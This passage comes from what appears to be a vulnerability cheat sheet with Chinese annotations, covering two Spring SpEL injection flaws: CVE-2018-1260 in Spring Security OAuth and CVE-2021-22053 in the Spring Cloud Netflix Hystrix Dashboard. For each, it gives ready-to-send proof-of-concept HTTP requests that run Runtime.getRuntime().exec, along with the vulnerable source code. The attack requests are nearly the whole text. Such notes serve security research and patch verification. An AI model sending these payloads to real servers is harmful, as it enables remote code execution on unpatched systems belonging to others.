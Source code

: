 Ref: https://www.gosecure.net/blog/2018/05/17/beware-of-the-magic-spell-part-2-cve-2018-1260/

Diff: https://github.com/spring-attic/spring-security-oauth/commit/adb1e6d19c681f394c9513799b81b527b0cb007c

POC: (scope中如果存在空格，会被切分成数组)
```
GET or POST
/oauth/authorize?client_id=client&response_type=code&redirect_uri=http://www.baidu.com&scope=%24%7BT%28java.lang.Runtime%29.getRuntime%28%29.exec%28%22calc.exe%22%29%7D
```
Factor: 
```
org.springframework.security.oauth2.provider.endpoin.SpelView
    public SpelView(String template) {
        ...
        this.resolver = new PlaceholderResolver() {
            public String resolvePlaceholder(String name) {
                Expression expression = SpelView.this.parser.parseExpression(name);
                Object value = expression.getValue(SpelView.this.context);
                return value == null ? null : value.toString();
            }
        };
    }
```

### （6）Spring Cloud Netflix Hystrix Dashboard 
#### CVE-2021-22053 SpEL
Affected Version: < 2.2.9.RELEASE + Spring Boot Thymeleaf

POC: 
```
GET /hystrix/;a=a/__${T (java.lang.Runtime).getRuntime().exec("open -a calculator")}__::.x/

/hystrix/;a=a/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x
/hystrix;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x/
/hystrix/;/__$%7BT%20(java.lang.Runtime).getRuntime().exec(%22open%20-a%20calculator%22)%7D__::.x/
```
Factor: 
```
org.thymeleaf.spring5.view.ThymeleafView
protected void renderFragment(Set<String> markupSelectorsToRender, Map<String, ?> model, HttpServletRequest request, HttpServletResponse response) throws Exception {
    IStandardExpressionParser parser = StandardExpressions.getExpressionParser(configuration);
    FragmentExpression fragmentExpression;
    try {
        fragmentExpression = (FragmentExpression)parser.parseExpression(context, "~{" + viewTemplateName + "}");
    }
}
org.thymeleaf.standard.expression.StandardExpressionParser
static IStandardExpression parseExpression(IExpressionContext context, String input, boolean preprocess) {
    IEngineConfiguration configuration = context.getConfiguration();
    String preprocessedInput = preprocess ? StandardExpressionPreprocessor.preprocess(context, input) : input;
}
```
